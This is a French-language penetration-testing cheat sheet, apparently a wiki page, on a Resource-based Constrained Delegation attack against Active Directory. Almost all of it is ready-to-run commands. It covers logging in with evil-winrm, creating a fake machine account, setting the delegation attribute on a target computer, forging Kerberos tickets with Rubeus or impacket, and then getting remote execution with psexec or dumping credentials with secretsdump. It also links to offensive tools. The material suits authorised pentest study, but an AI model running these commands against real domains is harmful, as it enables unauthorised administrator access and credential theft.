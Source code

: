 ```yaml
---
description: >-
  Je me demande si ajouter une machine au domaine avec un compte et réaliser
  directement les commandes powershell dessus ne fonctionne pas également.
---
```


# Resource-based Constrained Delegation

_**Objectif :** Devenir administrateur d'un objet ordinateur (\<MACHINE-CIBLE>)._

_**Note :** Cette attaque est possible si un utilisateur dispose_

* _Des droits "GenericAll" sur un objet ordinateur (\<MACHINE-CIBLE>)._
* _Du droit "CanPSRemote" sur une machine du domaine (MACHINE-DOMAINE)._

#### Connexion à une machine du domaine

```
$ evil-winrm -u "<USER>" -p '<PASSWORD' -i <IP-MACHINE-DOMAINE> -s /home/kali/tools/
#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe
```

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```

[psexec.exe](https://live.sysinternals.com/)

[powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

[powemad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)


